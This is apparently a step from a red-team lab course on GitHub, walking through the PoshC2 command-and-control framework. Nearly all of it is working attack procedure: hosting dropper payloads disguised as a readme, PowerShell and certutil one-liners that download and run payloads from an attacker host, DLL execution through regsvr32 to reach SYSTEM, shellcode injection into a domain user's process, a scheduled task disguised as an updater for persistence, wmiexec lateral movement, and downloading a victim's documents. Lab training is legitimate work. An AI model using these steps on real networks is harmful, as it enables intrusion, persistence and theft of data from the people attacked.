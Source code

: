 # Running Poshc2

Create a new project:

```
posh-project -n <project-name>
```

Projects can be switched to or listed using this script:
```
[*] Usage: posh-project -n <new-project-name>
[*] Usage: posh-project -s <project-to-switch-to>
[*] Usage: posh-project -l (lists projects)
[*] Usage: posh-project -d <project-to-delete>
[*] Usage: posh-project -c (shows current project)
```
Edit the configuration for your project:
```
posh-config
```
Edit `bindport` to **80**, the `payloadcommshost` to **http://<parrot IP>** (Make sure you delete the s in https)

Launch the Poshc2 server:
```
posh-server
```

Separately, run the ImplantHandler for interacting with implants:
```
posh -u <username>
```

For more on `Poshc2` github like [here](https://apple.stackexchange.com/questions/254380/why-am-i-getting-an-invalid-active-developer-path-when-attempting-to-use-git-a) 

# Host Payloads 

The Poshc2 Implant Types can be summarized as:
* `PS` - PowerShell Implant.
* `C#` - C# Implant that does not use System.Management.Automation.dll.
* `PY` - Python Implant.
* `PB` - PBind

In the ImplantHandler run file upload command 
```
add-hosted-file
```

Host file options 
```console
file location > /var/poshc2/<YourProjectName>/payloads/Sharp_v4_dropper_x64.exe
file uri > /en-us/readme.md
file MIME type > text/html
Base64 > n
```

View all hosted files by running
```
show-hosted-files
```

# Download Payload on Victim 

For testing lets downloading using powershell on victim machine using a basic user
```powershell
iwr -uri http://<YouripOrDomian>/en-us/readme.md -outfile C:\windows\temp\bad.exe; C:\windows\temp\bad.exe
```

Interact with implant by typeing `1` in ImplantHandler

# User Escalation

Check for running process 
```ps 
ps
```
> As a basic user you'll only be able to see anything ran under your own context. 

Lets escalate to system through execution  

Upload a the dll to the machine 
```ps
> upload-file 
> /var/poshc2/projetname/payloads/Sharp_v4_x64.dll
> location C:\windows\temp\updater.dll 
```

Execute dll using local windows binaries 
```ps
sharpps regsvr32 C:\windows\temp\updater.dll
``` 
> For more on native window binaries look [here](https://lolbas-project.github.io/)

After execution you should see a system level beacon return in ImplantHandler  

Once you are system you can Enumerate for other users on the box with domain access. 
```ps
ps
```

Search for any user process being ran as a domain user, to inject into

```ps
inject-shellcode <PID> 
```
```ps
<name_of_shellcode.bin>
```

Checking your ImplantHandler you should see a new beacon running in the context of said user.

As a domain user you can now run domain level commands, you can check your groups and privileges 
``` 
sharpps net user <domain username>
```

# Persistence and Scripting 

Now to maintain our domain user privilege lets create a .ps1 script to set persistence using registry keys  

On your attack box with the editor of your choice copy the following 
```ps
$payloadpath = "C:\windows\temp\bad.exe"
$taskname = "Test Updater"
$tskdescription = "This task updates things."
$action = New-ScheduledTaskAction -Execute $payloadpath
$days = 'Monday', 'Tuesday', 'Wednesday', 'Thursday', 'Friday'
$trigger = New-ScheduledTaskTrigger -weekly -DaysOfWeek $days -At 8am
Register-ScheduledTask -Action $action -Trigger $trigger -Taskname $taskname -Description $tskdescription
```
> Learn more about powershell `New-ScheduledTaskTrigger` [here](https://learn.microsoft.com/en-us/powershell/module/scheduledtasks/new-scheduledtask?view=windowsserver2022-ps)

Save your pslo script as bad.ps1 in /home/parrot/desktop/bad.ps1

Lets run the .ps1
```
pslo /home/parrot/desktop/bad.ps1
```

You should see your scheduled task name appear for confirmation 

# Lateral Movement 

**Only if you have more than one victim machine. If you don't, skip to Step 2**

Now lets run a `sharpview` to enumerate the network to conduct lateral movement
```
sharpview 
```
> Read more on sharpview [here](https://academy.hackthebox.com/course/preview/active-directory-powerview/powerviewsharpview-overview--usage)

We can use the enumeration script to identify the next workstation to laterally move to 

```
resolveip <127.0.0.1>
```

Lets host a new payload 
```
add-hosted-file
```

Host file opttions 

```console
file location > /var/poshc2/projectname/payloads/Sharp_v4_dropper_x64.exe
file uri > /verify
file MIME type > text/html
Base64 > n
```

Run wimc to get download and execution of hosted payload
```powershell
wmiexec <127.0.0.1> <domain> <username> password=asdsa "cmd /c certutil.exe -urlcache -split -f http://badip/verify C:\windows\downloads\bad2.exe && C:\windows\downloads\bad2.exe"
```

In ImplantHandler interact with the new payload 

Lets run a built in host enumeration script 
```
seatbelt
```
Take some time to look at the differnet feilds, look into any that you dont recognize.

In the new payload handler lets navigate to the `documents` folder 
```
cd C:\users\username\documents
```

lets see what documents we can find 
```
ls
```

Now lets download some files 
```
download-file <filename>
```

Congratulations you have ran through your first OPPLAN, check [here](poshc2_help_v8.md) for the help list for Poshc2 and other commands you can run.

## [Return to course page](README.md) or [Go To Next Step](step2-proxy-nginx.md)